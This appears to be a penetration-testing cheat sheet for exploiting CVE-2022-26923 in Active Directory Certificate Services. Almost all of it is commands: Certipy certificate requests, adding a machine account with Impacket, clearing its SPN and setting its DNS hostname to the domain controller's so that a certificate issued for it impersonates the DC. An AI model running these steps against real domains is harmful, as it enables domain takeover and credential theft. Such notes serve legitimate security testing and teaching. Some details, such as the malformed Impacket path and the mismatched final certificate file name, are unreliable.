 ```yaml
---
title: AD CS PrivEsc
desc: AD CS (Active Directory Certificate Services) is vulnerable to privilege escalation (CVE-2022-26923).
tags: [ActiveDirectory, PrivEsc, Windows]
alts: [WindowsPrivEsc]
website:
render_with_liquid: false
---
```


## 1. Configure DNS

Modify DNS hostname on attack machine.

```sh
10.0.0.1 vuln.com vulndc VULN-VULNDC-CA vuln.local
```

<br />

## 2. Test Certificate Generation

```sh
# Request cerification
certipy req 'vuln.local/username:password@vuln.com' -ca VULNDC-CA -template User

# Authentication
certipy auth -pfx administrator.pfx
```

<br />

## 3. Add a Computer to the Domain

```sh
python3 ./impacket/examples.addcomputer.py 'vuln.local/username:password' -method LDAPS -computer-name 'MYPC' -computer-pass 'MyPcPassword'

# Request certification for the computer
# Use your own username and password (ex. 'MYPC$:MyPcPassword')
certipy req 'vuln.local/MYPC$:MyPcPassword@vuln.com' -ca VULNDC-CA -template Machine

# Authentication
certipy auth -pfx mypc.pfx
```

<br />

## 4. Update the DNS Hostname and SPN Attributes

```sh
# Connect using SSH
ssh vuln.local\\username@vulndc

# ---------------------------------------------

# On target Windows machine

# Start PowerShell
powershell

# Get the machine which participates the Active Directory
Get-ADComputer MYPC -properties dnshostname,serviceprincipalname

# Remove the current SPN attribute
Set-ADComputer MYPC -ServicePrincipalName @{}

# Then, set the DNS hostname to that of the DC
Set-ADComputer MYPC -DnsHostName VULNDC.vuln.local
```

<br />

## 5. Malicious Certificate (Get Another Machine Certificate)

```sh
# Request a new certificate for the computer again.
certipy req 'vuln.local/MYPC$:MyPcPassword@vuln.com' -ca VULNDC-CA -template Machine

# Then, we got a certificate for the another machine. 
certipy auth -pfx ca.pfx
```